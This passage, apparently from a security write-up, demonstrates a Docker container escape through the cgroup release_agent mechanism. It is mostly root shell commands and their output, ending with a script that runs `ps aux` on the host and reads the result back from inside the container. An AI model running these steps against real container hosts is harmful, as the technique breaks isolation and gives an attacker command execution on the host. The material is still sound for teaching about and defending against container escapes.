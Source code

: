 Next, we enable cgroup notifications on release of the “x” cgroup by writing a 1 to its `notify_on_release` file. We also set the RDMA cgroup release agent to execute a `/cmd` script — which we will later create in the container — by writing the `/cmd` script path on the host to the `release_agent` file. To do it, we’ll grab the container’s path on the host from the `/etc/mtab` file.

The files we add or modify in the container are present on the host, and it is possible to modify them from both worlds: the path in the container and their path on the host.

Those operations can be seen below:

```text
root@b11cf9eab4fd:/# echo 1 > /tmp/cgrp/x/notify_on_release
root@b11cf9eab4fd:/# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@b11cf9eab4fd:/# echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

Note the path to the `/cmd` script, which we are going to create on the host:

```text
root@b11cf9eab4fd:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/cmd
```

Now, we create the `/cmd` script such that it will execute the `ps aux` command and save its output into `/output` on the container by specifying the full path of the output file on the host. At the end, we also print the `/cmd` script to see its contents:

```text
root@b11cf9eab4fd:/# echo '#!/bin/sh' > /cmd
root@b11cf9eab4fd:/# echo "ps aux > $host_path/output" >> /cmd
root@b11cf9eab4fd:/# chmod a+x /cmd
root@b11cf9eab4fd:/# cat /cmd
#!/bin/sh
ps aux > /var/lib/docker/overlay2/7f4175c90af7c54c878ffc6726dcb125c416198a2955c70e186bf6a127c5622f/diff/output
```

Finally, we can execute the attack by spawning a process that immediately ends inside the “x” child cgroup. By creating a `/bin/sh` process and writing its PID to the `cgroup.procs` file in “x” child cgroup directory, the script on the host will execute after `/bin/sh` exits. The output of `ps aux` performed on the host is then saved to the `/output` file inside the container:

```text
root@b11cf9eab4fd:/# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@b11cf9eab4fd:/# head /output
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0  17564 10288 ?        Ss   13:57   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    13:57   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   13:57   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   13:57   0:00 [kworker/0:0H-kblockd]
root         8  0.0  0.0      0     0 ?        I<   13:57   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    13:57   0:00 [ksoftirqd/0]
root        10  0.0  0.0      0     0 ?        I    13:57   0:00 [rcu_sched]
root        11  0.0  0.0      0     0 ?        S    13:57   0:00 [migration/0]
```
